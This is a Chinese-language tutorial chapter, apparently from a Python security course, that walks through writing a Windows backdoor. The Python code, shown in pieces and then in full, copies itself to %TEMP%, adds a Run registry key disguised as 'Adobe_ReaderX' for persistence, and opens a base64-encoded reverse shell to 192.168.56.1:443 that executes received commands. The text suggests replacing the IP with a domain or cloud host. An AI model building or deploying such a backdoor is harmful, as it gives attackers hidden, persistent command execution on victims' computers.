

# exp 编写

本节将带着大家利用前面章节所学到的知识使用 Python 和 PyInstalle 自己的 exp,在前面的[章节](https://github.com/smartFlash/pySecurity/blob/master/zh-cn/0x4.md),讲到了如何把一个 python 脚本编译成为一个可执行的 PE 文件,现在让我们利用前面学到的知识快速写一个 windows 工具脚本.

### 开始编码

大家其实会发现,很多恶意中间件最想干的一件事情就是获得被攻击系统的持久性(永久的潜伏在系统里面,永久性后门),像在 windows 里面最常见的一种方式就是被攻击系统的注册表键值.

`Software\Microsoft\Windows\CurrentVersion\Run`

下面的这一小段代码实现的功能就是把程序拷贝到%TEMP%目录下面并且修改了注册表,当用户登录到系统的时间就会执行这个后门:

```py
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# 复制执行文件的到 %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# 查询注册表对应的键值是多少
# 给该后门添加自动执行的权限
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# 设置键值:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass 
```

现在我们已经把后门拷贝到了%TEMP%目录下面,并且给它添加了自动执行的权限,下面是一个 shell,通过一个 Python 脚本——[TrustedSec](https://www.trustedsec.com/files/RevShell_PoC_v1.py)来实现攻击,但是做了一点修改,对传输的文本做了一个 base64 编码.

```py
def shell():
#Base64 编码反向 shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main() 
```

简单的解释这个程序:当这个程序执行的时候会与攻击者的电脑建立一个连接,但是脚本中的连接是一个固定 IP,这里可以修改为一个域名或者是 Amazon cloud 的服务地址,从下图可以看出攻击者与受害者建立一个网络连接,你也可以注意到两者之间被 base64 编码后的数据流量包



下面是完整代码:

```py
import sys, base64, os, socket, subprocess
from _winreg import *

def autorun(tempdir, fileName, run):
# Copy executable to %TEMP%:
    os.system('copy %s %s'%(fileName, tempdir))

# Queries Windows registry for the autorun key value
# Stores the key values in runkey array
    key = OpenKey(HKEY_LOCAL_MACHINE, run)
    runkey =[]
    try:
        i = 0
        while True:
            subkey = EnumValue(key, i)
            runkey.append(subkey[0])
            i += 1
    except WindowsError:
        pass

# If the autorun key "Adobe ReaderX" isn't set this will set the key:
    if 'Adobe ReaderX' not in runkey:
        try:
            key= OpenKey(HKEY_LOCAL_MACHINE, run,0,KEY_ALL_ACCESS)
            SetValueEx(key ,'Adobe_ReaderX',0,REG_SZ,r"%TEMP%\mw.exe")
            key.Close()
        except WindowsError:
            pass

def shell():
#Base64 encoded reverse shell
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.56.1', int(443)))
    s.send('[*] Connection Established!')
    while 1:
        data = s.recv(1024)
        if data == "quit": break
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        stdout_value = proc.stdout.read() + proc.stderr.read()
        encoded = base64.b64encode(stdout_value)
        s.send(encoded)
        #s.send(stdout_value)
    s.close()

def main():
    tempdir = '%TEMP%'
    fileName = sys.argv[0]
    run = "Software\Microsoft\Windows\CurrentVersion\Run"
    autorun(tempdir, fileName, run)
    shell()

if __name__ == "__main__":
        main() 
```